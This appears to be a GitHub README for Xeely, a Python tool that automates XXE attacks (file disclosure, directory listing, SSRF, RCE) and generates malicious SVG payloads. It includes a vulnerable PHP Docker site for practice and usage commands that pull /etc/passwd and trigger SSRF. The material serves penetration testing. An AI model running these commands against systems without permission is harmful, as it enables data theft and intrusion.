



# Xeely
[](https://www.python.org/)


## Purpose
Xeely is a Linux tool that permits to automate some XXE exploits: `File Disclosure`, `Directory Listing`, `SSRF`,`RCE`.
To carry out these attacks, a user can choose a particular method among those proposed below:

-   [DIRECT](https://portswigger.net/web-security/xxe)
-  [ERROR BASED](https://portswigger.net/web-security/xxe)
- [OOB](https://portswigger.net/web-security/xxe)


Xeely also supports the generation of malicious SVG payload to combine `XXE` and `File Upload` attacks.

This project also comes with a Docker image of a vulnerable PHP website to try out the tool.

⚡️ **This is an early release currently being tested.**


**Disclaimer**: Running the payloads generated by this tool against hosts that you do not have explicit permission to test is illegal. You are responsible for any trouble you may cause by using this tool.

## Preview


## Deploying vulnerable website

```
git clone https://github.com/0xHexPloit/Xeely.git
cd ./Xeely/vulnerable_website
docker build -t xeely-xxe-website .
docker run -d -p 80:80 xeely-xxe-website
```

If you now try to navigate to http://localhost:80/, you should see the following website:


## Installation & Usage
```
git clone https://github.com/0xHexPloit/Xeely.git
cd ./Xeely
pip3 install -r requirements.txt
```

Once all the dependencies have been installed, you could identify if your target machine
is vulnerable to XXE attacks using the following command:

```
python3 -m xeely identify --request <PATH TO REQUEST FILE> --lhost <IP ADDRESS>
```

The `request` option expects a path to an HTTP Request file similar to the one in
the `resources` directory. We recommend to use `Burp` to generate this file.

Concerning the `lhost` option, the latter permits to specify the IP Address to use to
setup an HTTP server to handle XXE attacks using either `Error Based` or `OOB` method.



As shown on the above figure, our PHP website is vulnerable to `File Disclosure` and
`SSRF` attacks. Xeely also recommends to use the `DIRECT` mode/method to perform the
attack which is the most common way to perform an XXE attack.

With this knowledge in mind, we can now try to exfiltrate data using the `exploit` command.

```
python3 -m xeely exploit --request <PATH TO REQUEST FILE> --file /etc/passwd
```

```
python3 -m xeely exploit --request <PATH TO REQUEST FILE> --ssrf http://xxx
```

<hr />

**Useful remarks**:

It exists some files that cannot be retrieved using the above command. For example, PHP
tags will be taken into consideration by the XML parser. To overcome this issue, add the
`--base64` option if the backend server has been written in PHP or you could use `--cdata`
option if the backend server has been written in another language.

The `Directory Listing` attack only works for backend servers written in Java.

The `RCE` attack only works for backend servers written in PHP that have installed the
`expect` module (very rare).

<hr/>

As mentioned earlier, Xeely can also generate malicious SVG as shown below:



This payload can be obtained using the following command:

```
python3 -m xeely svg --file /etc/passwd
```

## Contributions

Feel free to open a pull request to recommend a new feature or
to notify me of a bug in the program.
